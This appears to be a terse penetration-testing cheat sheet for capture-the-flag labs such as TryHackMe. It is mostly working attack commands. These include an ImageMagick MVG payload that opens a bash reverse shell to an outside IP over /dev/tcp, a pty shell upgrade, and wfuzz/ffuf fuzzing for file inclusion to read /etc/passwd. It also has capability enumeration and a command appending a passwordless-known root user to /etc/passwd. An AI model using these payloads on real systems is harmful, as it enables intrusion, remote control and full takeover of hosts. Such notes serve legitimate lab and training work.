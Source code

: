cat > bak.py << EOF
#!/usr/bin/env python
import pty
pty.spawn("/bin/bash")
EOF

cat > image.png << EOF

cat > image.png << EOF
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|/bin/bash -i > /dev/tcp/10.8.50.72/4444 0<&1 2>&1'
pop graphic-context
pop graphic-context
EOF
 
# FUZZ FUF # 

wfuzz -c -w /usr/share/wordlists/SecLists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -u http://dev.team.thm/script.php?page=FUZZ --hw=0

wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://cmess.thm" -H "Host: FUZZ.cmess.thm" --hw 290

wfuzz -w /usr/share/wordlists/dirb/common.txt --hc=404 "http://10.10.244.142:5000/api/v1/resources/books?FUZZ=/etc/passwd"

ffuf -w wordlist.txt -u https://target .com/FUZZ -mc 200

# GetCap #

getcap -r / 2>/dev/null

# EnumForLinux #

enum4linux -a 10.10.16.141

# XXD #

xxd thm.jpg | head

# Printf - OpenSSL #

printf '\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01' | dd conv=notrunc of=thm.jpg bs=1

openssl passwd -1 -salt "inferno" "dante"

printf 'inferno:$1$inferno$vA66L6zp5Qks4kxIc3tvn/:0:0:root:/root:/bin/bash\n' | sudo tee -a /etc/passwd
